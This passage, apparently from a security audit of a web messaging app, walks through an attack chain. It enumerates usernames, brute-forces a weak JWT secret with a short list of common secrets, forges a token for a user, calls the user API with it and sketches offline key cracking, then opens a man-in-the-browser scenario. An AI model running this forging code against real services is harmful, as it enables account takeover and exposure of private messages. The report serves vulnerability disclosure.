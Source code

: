 2. **Username Enumeration:**
   ```python
   # Enumerate valid usernames
   python3 enumerate_users.py --target https://[server].vercel.app
   # Found: alice, bob, charlie
   ```

3. **Token Forgery:**
   ```javascript
   // Brute-force or guess the weak JWT secret
   const jwt = require('jsonwebtoken');
   const weakSecrets = [
     'your-secret-key-change-in-production',
     'secret', 'password', 'admin', '123456'
   ];
   
   for (const secret of weakSecrets) {
     try {
       // Test if secret works by decoding a captured token
       const decoded = jwt.verify(capturedToken, secret, { ignoreExpiration: true });
       console.log('Found secret:', secret);
       // Now forge tokens
       const forgedToken = jwt.sign(
         { userId: 1, username: 'alice' },
         secret,
         { expiresIn: '24h' }
       );
       break;
     } catch (e) {}
   }
   ```

4. **Account Access:**
   ```bash
   curl -X GET 'https://[server]/api/auth/user' \
     -H "Authorization: Bearer $FORGED_TOKEN"
   # Returns alice's profile, keys, everything
   ```

5. **Message Decryption:**
   ```javascript
   // Get alice's encrypted private key
   const { encrypted_private_key, salt } = userData;
   
   // If weak password, crack it offline
   // Then decrypt all messages
   ```

**Impact:** Complete compromise of victim's account and all encrypted messages.

---

### 9.2 Man-in-the-Browser Attack Chain

**Scenario:** Attacker injects JavaScript to intercept encryption keys.

